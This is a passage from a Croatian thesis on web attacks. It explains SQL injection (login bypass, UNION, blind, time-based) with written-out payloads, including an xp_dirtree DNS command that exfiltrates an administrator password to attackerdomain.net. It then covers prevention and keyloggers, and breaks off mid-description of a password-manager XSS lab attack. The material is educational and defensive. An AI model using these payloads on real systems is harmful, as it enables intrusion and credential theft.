\subsection{Potkopavanje logike web aplikacije}
Uzmimo za primjer web aplikaciju koja korisnicima omogućava prijavljivanje s korisničkim imenom i lozinkom. Ako korisnik pošalje korisničko ime \texttt{peter} i lozinku \texttt{cheese}, web aplikacija izvršava sljedeći upit kojim se provjerava valjanost danih podataka:

\begin{verbatim}
SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'
\end{verbatim}

Ako upit vrati detalje korisnika, tada je korisnik valjan, u suprotnom, pokušaj prijave je odbijen. Ovdje se napadač može prijaviti bez lozinke nadodavanjem komentara \texttt{--} kako bi makao dio upita koji provjerava lozinku. Kako bi se ovo ostvarilo potrebno je samo upisati \texttt{administrator'--} za korisničko ime i ostaviti praznu lozinku, što će rezultirati sljedećim upitom:

\begin{verbatim}
SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
\end{verbatim}

Ovim upitom se vračaju detalji korisnika s imenom \texttt{administrator}, čime je napadač dobio pristup web aplikaciji \cite{sitesqli}.

\subsection{UNION napadi}
U slučajevima kada se rezultat SQL upita vrača unutar web aplikacijskog odgovora, napadač može iskoristiti SQLi ranjivost kako bi dohvatio podatke iz druge tablice unutar baze podataka. Ovo se radi pomoću ključne riječi UNION, koja omogućava izvršavanje dodatnog SELECT upita čiji rezultat se nadodaje na rezultat originalnog upita. Npr. ako web aplikacija izvršava sljedeći upit koji sadrži korisnički unos "Gifts":

\begin{verbatim}
SELECT name, description FROM products WHERE category = 'Gifts'
\end{verbatim}

Tada napadač može načiniti sljedeći unos:

\begin{verbatim}
' UNION SELECT username, password FROM users--
\end{verbatim}

Ovo će rezultirati time da web aplikacija vrati sva korisnička imena i lozinke zajedno s imenima i opisima proizvoda \cite{sitesqli}.

\subsection{Pregledavanje baze podataka}
Nakon otkrivanja SQLi ranjivosti, korisno je dobiti informacije o samoj bazi podatak. Ove informacije mogu dovesti do otkrivanja naknadnih ranjivosti. Primjer ovakvih informacija je verzija baze podataka koja se može dobiti kao rezultat upita. Način na koji se to radi ovisi o tipu baze podataka, što znači da se iz samog postupka koji uspješno rezultira verzijom baze podataka može odrediti tip baze podataka. U slučaju Oracle baze podataka potrebno je izvršiti sljedeći upit:

\begin{verbatim}
SELECT * FROM v$version
\end{verbatim}

Također je moguće odrediti koje tablice baze podataka postoje i koje stupce one sadrže. Npr. većina baza podataka ako se izvrši sljedeći upit, baza podataka će vratiti listu tablica \cite{sitesqli}:

\begin{verbatim}
SELECT * FROM information_schema.tables
\end{verbatim}

\subsection{Slijepi SQLi}
Slijepi SQLi napadi su mogući kada je web aplikacija ranjiva na SQLi, ali HTTP odgovor ne sadrži nikakav rezultat upita ili detalja pogrešaka baze podataka. S ovakvim ranjivostima, mnoge tehnike, kao što su UNION napadi, nisu učinkovite jer se one zasnivaju na tome da je napadač u mogućnosti vidjeti rezultate ubačenog upita u odgovoru web aplikacije. Međutim, i dalje je moguće zloupotrijebiti slijepi SQLi kako bi se dobio pristup zaštićenim podatcima, ali su za to potrebne druge tehnike. Neke od tih tehnika su:

\begin{itemize}
\item Slijepi SQLi uzrokovan uvjetnim odgovorom
\item Prouzrokovanje uvjetnih odgovora stvaranjem SQL grešaka
\item Slijepi SQLi uzrokovan vremenskim kašnjenjem
\item Slijepi SQLi korištenjem vankanalnim tehnikama (eng.out-of-band techniques) 
\end{itemize}

\subsubsection{Slijepi SQLi uzrokovan uvjetnim odgovorom}
Uzmimo za primjer web aplikaciju koja koristi kolačiće kako bi skupljala analitičke podatke o posjećenosti stranice. Zahtjevi na web aplikaciju uključuju zaglavlje kolačića poput:

\begin{verbatim}
Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4
\end{verbatim}

Kada se zahtjev koji sadrži \texttt{TrackingId} obrađuje, web aplikacija određuje dali se radi o poznatom korisniku tako što izvrši sljedeći SQL upit:

\begin{verbatim}
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
\end{verbatim}

Ovaj upit je ranjiv na SQLi, ali rezultati upita se vračaju korisniku. Međutim, web aplikacija se ponaša drugačije ovisno o tome dali upit vrača podatke. Ako upit vraća podatke, jer je \texttt{TrackingId} poznat web aplikaciji, onda se na stranici prikazuje "Dobrodošli natrag" poruka. Ovo ponašanje je dovoljno da bi se mogao izvršiti slijepi SQLi napad kojim bi se izvukle informacije, time što bi se pojavili drugačiji odgovori ovisno o ubačenom uvjetu. Kako bi vidjeli kako ovo funkcionira, pretpostavimo da su poslana dva zahtjeva koja sadrže sljedeće vrijednosti \texttt{TrackingId} kolačića:

\begin{verbatim}
xyz' UNION SELECT 'a' WHERE 1=1--
xyz' UNION SELECT 'a' WHERE 1=2--
\end{verbatim}

Prva vrijednost će uzrokovati upit da vrati rezultat, jer je ubačeni uvjet \texttt{1=1} je točan, stoga će se prikazati "Dobrodošli natrag" poruka. Dok u slučaju druge vrijednosti, upit neće vratiti rezultat, jer je ubačeni uvjet \texttt{1=2} netočan, pa se poruka "Dobrodošli natrag" neće prikazati. Ovo omogućava određivanje odgovora na bilo koji ubačeni uvjet, što znači da se podatci mogu izvlačiti dio po dio. Npr. pretpostavimo da postoji tablica imena \texttt{Users} sa stupcima \texttt{Username} i \texttt{Password} te da postoji korisnik zvan \texttt{Administrator}. U ovom slučaju je moguće odrediti lozinku korisnika slanjem niza unosa kako bi testirali lozinku jedno po jedno slovo. Kako bi ovo napravili počnemo sa sljedećim unosom:

\begin{verbatim}
xyz' UNION SELECT 'a' FROM Users WHERE Username = 'Administrator' and SUBSTRING(Password, 1, 1) > 'm'--
\end{verbatim}

Ovaj unos vraća "Dobrodošli natrag" poruku, koja ukazuje na to da je ubačeni uvjet točan, stoga je prvo slovo lozinke veće od \texttt{m}. Zatim, šaljemo sljedeće:

\begin{verbatim}
xyz' UNION SELECT 'a' FROM Users WHERE Username = 'Administrator' and SUBSTRING(Password, 1, 1) > 't'--
\end{verbatim}

Ovaj unos ne vrača poruku "Dobrodošli natrag", što ukazuje da je ubačeni uvjet netočan, stoga je prvo slovo lozinke veće od \texttt{t}. Na kraju, šaljemo sljedeći unos koji prikazuje poruku "Dobrodošli natrag", što je potvrda da je prvo slovo lozinke \texttt{s}:

\begin{verbatim}
xyz' UNION SELECT 'a' FROM Users WHERE Username = 'Administrator' and SUBSTRING(Password, 1, 1) = 's'--
\end{verbatim}

Ovim postupkom nastavljamo sve dok ne saznamo sva slova lozinke za korisnika \texttt{Administrator}.

\subsubsection{Prouzrokovanje uvjetnih odgovora stvaranjem SQL grešaka}
U prethodnim primjerima, pretpostavimo li da web aplikacija izvršava isti SQL upit, ali se njeno ponašanje ne mijenja ovisno o tome dali upit vraća podatke. U ovom slučaju prethodna tehnika ne bi funkcionirala jer ubacivanjem točnih ili netočnih uvjeta ne čini razliku web aplikaciji po pitanju odgovora kojeg vraća korisniku.

U ovoj situaciji je često moguće prouzročiti uvjetni odgovor uzrokovanjem uvjetnih SQL grešaka. Ovo zahtjeva promjenu upita tako da on uzrokuje grešku baze podataka ako je uvjet ispunjen. Neobrađena greška koji javlja baza podataka može uzrokovati odgovor web aplikacije preko kojega napadač može saznati istinitost ubačenog uvjeta.

Za primjer uzmimo dva zahtjeva koja sadrže sljedeće \texttt{TrackingId} vrijednosti:

\begin{verbatim}
xyz' UNION SELECT CASE WHEN (1=2) THEN 1/0 ELSE NULL END--
xyz' UNION SELECT CASE WHEN (1=1) THEN 1/0 ELSE NULL END--
\end{verbatim}

Ovi unosi koriste ključnu riječ \texttt{CASE} kako bi se testirao uvjet i time vratile različiti izrazi ovisno dali je uvjet istinit. Kod prvog unosa, izraz poprima vrijednost \texttt{null}, koji ne uzrokuje grešku. Drugi unos, izraz poprima vrijednost \texttt{1/0}, koji uzrokuje grešku dijeljenja s nulom. Pretpostavljajući da greška uzrokuje razliku u HTTP odgovoru web aplikacije, iz te razlike može se zaključiti dali je uvjet istinit.

Koristeći ovu tehniku, moguće je dohvatiti podatke na način koji je opisan u prethodnoj tehnici, a to je da sistematski testiramo slovo po slovo:

\begin{verbatim}
xyz' UNION SELECT CASE WHEN (username = 'Administrator' and SUBSTRING(password, 1, 1) > 'm') THEN 1/0 ELSE null END FROM users--
\end{verbatim}

\subsubsection{Slijepi SQLi uzrokokvan vremenskim kašnjenjem}
Pretpostavimo da web aplikacije iz prethodnog primjera hvata greške baze podataka te ih po pravilu obrađuje. U ovakvoj situaciji, uzrokovanje greške baze podataka umetanjem SQL upita neće izazvati nikakvu razliku u ponašanju web aplikacije, stoga je prethodno opisana tehnika beskorisna.

U ovakvoj situaciji, često je moguće zloupotrijebiti slijepu SQLi ranjivost uzrokovanjem uvjetnih vremenskih kašnjenja. Pošto se SQL upiti uglavnom izvršavaju sinkrono, uvođenjem kašnjenja u njihovom izvršavanju će ujedno uzrokovati kašnjenje HTTP odgovora web aplikacije. Ovime je moguće odrediti istinitost ubačenog uvjeta na temelju vremena potrebnog prije nego što primimo HTTP odgovor web aplikacije.

Tehnike kojima se uzrokuju vremenska kašnjenja su uvelike ovisna o tipu baze podataka. Kod Microsoft SQL Servera, sljedeći unosi izazivaju vremensko kašnjenje ovisno o tome dali je uvjet ispunjen.

\begin{verbatim}
'; IF (1=2) WAITFOR DELAY '0:0:10'--
'; IF (1=1) WAITFOR DELAY '0:0:10'--
\end{verbatim}

Prvi unos neće uzrokovati vremensko kašnjenje jer je uvjet \texttt{1=2} netočan, dok će drugim unos uzrokovati vremensko kašnjenje jer je uvjet \texttt{1=1} točan.

Koristeći ovu tehniku moguće je izvući podatke iz baze podataka tako da testiramo svako slovo podatke kojeg dohvaćamo:

\begin{verbatim}
'; IF (SELECT COUNT(username) FROM Users WHERE username = 'Administrator' AND SUBSTRING(password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
\end{verbatim}

\subsubsection{Slijepi SQLi korištenjem vankanalnim tehnikama}
U situaciji kada web aplikacija izvršava prethodni SQL upit asinkrono, tada će se korisnikov HTTP zahtjev obrađivati u originalnoj dretvi, dok će se SQL upit obrađivati u zasebnoj dretvi. Upit je i dalje ranjiv na SQLi, međutim sve od dosad opisane tehnike su neučinkovite u ovoj situaciji. Razlog toga je što odgovor web aplikacije ne ovisi o tome dali postoji vremensko kašnjenje u izvršavanju upita, dali upit vraća ikakve podatke ili uzrokuje grešku baze podataka.

U danoj situaciji, često je moguće zloupotrijebiti slijepu SQLi ranjivost uzrokovanjem vankanalne mrežne komunikacije sa sustavom kojeg napadač kontrolira. Kao i prije, ovakvo ponašanje se može uvjetno uzrokovati kako bi se informacije dohvaćale dio po dio. Međutim, postoji mogućnost izvlačenja podataka direktno iz mrežne komunikacije.

Za ovu svrhu se mogu iskoristiti razni mrežni protokoli, od kojih je najučinkovitiji DNS. Razlog toga je što veliki broj komercijalnih mreža dopušta slobodan prolaz DNS upita, jer su oni od osnovne važnosti za normalan rad tih sustava.

Tehnika kojima je moguće uzrokovati DNS upit su usko vezane za tip baze podataka koji se koristi. Kod Microsoft SQL Serveru, naredba kojom se uzrokuje DNS upit na specifičnu domenu ima sljedeći oblik:

\begin{verbatim}
'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--
\end{verbatim}

Ova naredba će uzrokovati bazu podataka da izvrši DNS upit za domenu \texttt{0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net}

Izvlačenje podataka iz baze se obavlja korištenjem sljedeće naredbe:

\begin{verbatim}
'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.attackerdomain.net/a"')--
\end{verbatim}

Ova naredba čita lozinku korisnika \texttt{Administrator}, koja se nadodaje na domenu koju kontrolira napadač, \texttt{attackerdomain}, te se uzrokuje DNS upit. Ovo će rezultirati sljedećim upitom iz kojeg je moguće pročitati lozinku biranog korisnika:

\begin{verbatim}
S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.attackerdomain.net
\end{verbatim}

Vankanalne (OAST) tehnike su veoma efektivan način pronalaženja i zloupotrebljavanja slijepih SQLi ranjivost, zbog njihove visoke vjerojatnosti uspjeha i sposobnosti da direktno izvlače podatke iz baze. Iz ovog razloga, OAST tehnike su korištene i u situacijama kada se neke od navedenih tehnika mogu izvesti.

\subsubsection{Sprječavanje slijepih SQLi napada}
Iako su tehnike potrebne za izvođenje slijepih SQLi napada različite i sofisticiranije od običnih SQLi napada, mjere kojima se oni sprječavaju su iste \cite{blndsqli}.

\subsection{Sprječavanje SQLi napada}
Većina SQLi napada se mogu spriječiti korištenjem parametriziranih upita, poznate kao pripremljene izjave (eng. prepared statements), umjesto korištenja konkatenacije unutar upita. 

Sljedeći kod je ranjiv na SQLi napad jer se korisnički unos direktno konkatenira u SQL upit:

\begin{verbatim}
String query = "SELECT * FROM products WHERE category = '"+ input + "'";

Statement statement = connection.createStatement();

ResultSet resultSet = statement.executeQuery(query);
\end{verbatim}

Ovaj kod se može na jednostavan način preoblikovati kako bi onemogućili korisničkom unosu da poremeti strukturu upita:

\begin{verbatim}
PreparedStatement statement = connection.prepareStatement("SELECT * FROM products WHERE category = ?");

statement.setString(1, input);

ResultSet resultSet = statement.executeQuery();
\end{verbatim}

Parametrizirani upiti se mogu koristiti u bilo kojoj situaciji gdje se nepovjerljivi podatci javljaju unutar upita, što uključuje \texttt{WHERE} izraz te vrijednosti unutar \texttt{INSERT} ili \texttt{UPDATE} izraza. Međutim, ovakvi upiti se ne mogu koristiti kada se nepovjerljivi podatci nalaze u drugim dijelovima upita, kao što su imena tablica i stupaca, ili \texttt{ORDER BY} izraz. Web aplikacija koja prima nepovjerljive podatke u tim dijelovima SQL upita treba koristi druge metode prevencije SQLi napada, poput propuštanja dopuštenih vrijednosti ili korištenje drugačije logike kako bi se postiglo traženo ponašanje.

Da bi parametrizirani upit bio učinkovit u sprečavanju SQLi napada, korišteni niz znakova (eng. string) mora uvijek biti tvrdo kodirana (eng. hard coded) konstanta te ne smije nikada sadržavati nikakvu varijablu. Primjena ovih metoda sprječavanja SQLi napada bi se trebala uraditi na svim situacijama u kojima se u SQL upit dodaje korisnički unos, a ne samo u onim slučajevima koje smatramo riskantnima, već u svim \cite{sitesqli}.

\section{Keylogger}
Keylogger je program ili funkcija koja sprema sve što korisnik unese preko tipkovnice. Iz ovog razloga Keyloggeri su ozbiljna prijetnja korisnicima jer ovakvi programi mogu pratiti pritiske tipki kako bi ukrali lozinku ili neku drugu osjetljivu informaciju unesenu preko tipkovnice. Keyloggeri omogućavaju napadačima pristup PIN kodovima, lozinkama, brojevima računa i drugim osjetljivim informacijama.

Keyloggeri se mogu koristi za dohvaćanje privatnih podataka korisnika ili za špijuniranje.

Način na koji keylogger funkcionira je da on remeti slijed događaja koji se obavljaju kada se pritisne tipka do trenutka kada se podatci pojave na ekranu\cite{key}.

\subsection{Vrste keylogger-a}

Keylogger se može implementirati hardverski i softverski. 

Hardverski keylogger-i mogu biti uređaji koji su ugrađeni unutar računalnog hardvera ili mogu biti dodatci koji stoje između utora u računalo i kabela tipkovnice. Međutim to znači da napadač mora fizički doći do računala.

Softverski keylogger je puno jednostavnije postaviti na žrtvino računalo, zbog toga je ovaj tip keylogger-a rašireniji. Za razliku od ostalih malicioznih softvera, softverski keylogger nisu prijetnje sistemu na kojem se nalaze. Čitava ideja keylogger je njihov rad u pozadini, hvatajući udare na tipkovnici dok računalo normalno funkcionira. Međutim, iako keylogger-i ne štete sustavu, oni su i dalje prijetnja za korisnika, pogotovo kada uhvate podatke koji su vezani za online plaćanje.

\subsection{Zaštita od keylogger-a}
Metode zaštite od keloggera su \cite{key2}

\begin{itemize}
\item Pažljivo otvarati priloge. Dokumenti koji su primljeni preko e-maila, društvenih mreža, ili SMS poruka mogu u sebi nositi keylogger
\item Voditi računa o lozinkama. Pod ovo spada korištenje jednokratnih lozinki te upotreba web aplikacija koje koriste provjeru u dva koraka , također preporučuje se korištenje upravitelja lozinki (eng. password manager) koji automatski pamti korisnička imena i lozinke te ujedno sprječava keylogger-e da uhvate lozinku jer je korisnik ne unosi preko tipkovnice, već to radi upravitelj lozinki.
\item Upotreba sigurnosnih programa, korištenjem antivirusa, vatrenih zidova te zaštite identiteta i podataka.
\end{itemize}

\chapter{NAPADI}

Kako bi se napadi mogli demonstrirati, za svaki pojedini napad su izrađene web stranice sa odgovarajućim ranjivostima. Ovisno o kakvoj ranjivosti je riječ, svaka web stranica posjeduje dogovarajuće tehnologije ili funkcionalnosti, pa su tako neke web stranice napravljene korištenjem Node.js i Express.js. Napravljene web stranice imaju rudimentarni izgled, napravljen korištenjem EJS-a, te sadrže samo one elemente koji su potrebni za demonstraciju ranjivosti i napada. Kako nekoliko ranjivosti, koji se obrađuju u ovom diplomskom radu, ne ovisi o tehnologiji back-end-a, web stranice za te ranjivosti su napravljene na istoj web aplikaciji koristeći prethodno navedene tehnologije. Preostale ranjivosti su izrađene korištenjem ASP .NET softverskog okvira te PHP serverskog skriptnog jezika. Razlog tome je što su odgovarajuće ranjivosti zahtijevale korištenje tih tehnologija.

Napadi koji su obrađeni u ovom poglavlju su:

\begin{itemize}
\item XSS napad preko upravitelja lozinki
\item DOM-clobbering
\item Slijepi SQLi s izvlačenjem podataka izvan komunikacijskog kanala (eng. out-of-band)
\item XSS ranjivost u ASP .NET-u
\item CSS keylogger
\end{itemize}

\section{XSS napad preko upravitelja lozinki} \label{xss1}
\subsection{Opis web stranice}
Pretpostavimo web stranicu za prijavu na blog u kojoj se unose korisničko ime i lozinka unose u formu. Primjer ovakve web stranice je prikazan na slici \ref{fig:xss2cp}. Front-end kod web stranice je prikazan na slici \ref{fig:xss2cp_ejs} dok je back-end kod prikazana na slikama \ref{fig:xss2cp_b1} i \ref{fig:xss2cp_b2}. Uz sve navedeno, ova web stranica je povezana s MS SQL Serverom na kojem se nalazi baza podataka s korisničkim podatcima. 

\begin{figure}[H]
	\begin{center}
		
\includegraphics[height=9cm]{xss2cp.jpg}
		\caption{XSS za hvatanje lozinki} \label{fig:xss2cp}
	\end{center}
\end{figure}

\begin{figure}[H]
	\begin{center}
		
\includegraphics[height=9cm]{xss2cp_ejs.jpg}
		\caption{Front-end stranice} \label{fig:xss2cp_ejs}
	\end{center}
\end{figure}

\begin{figure}[H]
	\begin{center}
		
\includegraphics[width=17cm]{xss2cp_b1.jpg}
		\caption{Back-end stranice} \label{fig:xss2cp_b1}
	\end{center}
\end{figure}

\begin{figure}[H]
	\begin{center}
		
\includegraphics[width=17cm]{xss2cp_b2.jpg}
		\caption{Back-end stranice 2. dio} \label{fig:xss2cp_b2}
	\end{center}
\end{figure} 

Ova web stranica šalje korisničke podatke upisane u formu POST zahtjevom na putanju \texttt{/xss-to-capture-pass/login} kao što se vidi na slici \ref{fig:xss2cp_ejs}. Kada web aplikacija primi korisničke podatke, šalje se SQL upit u bazu podata. Ako upit vrati nekakve detalje o korisniku, web stranica preusmjerava korisnika na blog, međutim, ako upit ne vrati nikakav rezultat, korisnika se ponovno vraća na istu web stranici. Opisano ponašanje se izvršava u \texttt{router.post} metodi za putanju \texttt{/xss-to-capture-pass/login}, što je prikazano na slici \ref{fig:xss2cp_b1}. Nakon što se korisnik uspješno prijavi na web stranicu, web aplikacija ga preusmjerava na blog web stranicu, koja je prikazana na slici \ref{fig:xss2cp_blog} te realizirana kodom sa slike \ref{fig:xss2cp_blog_f}.

\begin{figure}[H]
	\begin{center}
		
\includegraphics[width=0.6\textwidth]{xss2cp_blog.jpg}
		\caption{Blog web stranica} \label{fig:xss2cp_blog}
	\end{center}
\end{figure}

\begin{figure}[H]
	\begin{center}
		
\includegraphics[width=\textwidth]{xss2cp_blog_f.jpg}
		\caption{Front-end blog web stranice} \label{fig:xss2cp_blog_f}
	\end{center}
\end{figure}

Kada korisnik dođe na blog web stranicu, ispisano je njegovo korisničko ime. Blog web stranica ima mogućnost postavljanja blog članaka, tako da se tekst članka upiše u tekstualno polje te se pritisne gumb "Post it". Pritiskom na gumb, upisani tekst se šalje POST zahtjevom na putanju \texttt{/xss-to-capture-pass/blog}, što je prikazano na slici \ref{fig:xss2cp_blog_f}. Kada web stranica primi podatke koje je korisnik poslao, ona ih sprema u niz, čiji sadržaj ispisuje na stranici, te preusmjerava korisnika na istu web stranicu kako bi se vidjeli novi blog članci. Postavljene blog članke mogu vidjeti svi korisnici. Primjer ovoga se može vidjeti na slici ispod.

\begin{figure}[H]
	\begin{center}
		
\includegraphics[width=0.6\textwidth]{xss2cp_blog_p.jpg}
		\caption{Blog web stranica s člankom} \label{fig:xss2cp_blog_p}
	\end{center}
\end{figure}

U koliko korisnik pritisne gumb "Logout", korisnik će biti odjavljen s bloga te će biti preusmjeren na web stranicu prijave za blog.

\subsection{Opis napada}
Ranjivost koju zloupotrebljava ovaj napad je ranjivost web preglednika, točnije ranjivost upravitelja lozinki web preglednika koji automatski nadopisuje korisničko ime i lozinku. Upravitelj lozinki nadopunjuje korisničko ime i lozinku samo na onim \texttt{input} elementima koji imaju odgovarajuće vrijednosti atributa \texttt{id} ili atributa \texttt{name}. Kako vidimo sa slike \ref{fig:xss2cp_ejs}, \texttt{input} elementi za korisničko ime i lozinku imaju vrijednosti atributa \texttt{name} koje odgovaraju vrijednostima \texttt{name} i \texttt{pass}.

Način na koji napadač može iskoristiti opisano ponašanje upravitelja lozinki je da konstruira blog članak koji sadrži HTML kod prikazana na slici \ref{fig:xss2cp_pay} ispod:

\begin{figure}[H]
	\begin{center}
		
\includegraphics[width=\textwidth]{xss2cp_pay.jpg}
		\caption{Kod kojim se obavlja napad} \label{fig:xss2cp_pay}
	\end{center}
\end{figure}

Kako svi korisnici mogu vidjeti članke od drugih korisnika, napadač može poslati maliciozan članak s korisničkog računa kojeg on kontrolira. Ovaj kod sadrži \texttt{input} elemente koji imaju iste vrijednosti \texttt{name} atributa kao i \texttt{input} elementi u koje korisnik unosi korisničko ime i lozinku, što će natjerati upravitelja lozinki da sam primjeni te vrijednosti u \texttt{input} elemente. Međutim, kako bi se unesene vrijednosti automatski poslale, nakon što su unesene, posljednji \texttt{input} element sadrži kod unutar \texttt{onchange} atributa. Taj kod se izvršava kada se dogodi promjena u unesenoj vrijednosti posljednjeg \texttt{input} elementa. Kada se navedeni kod počne izvršavati, tada se unesene vrijednosti šalju HTTP zahtjevom na server kojeg 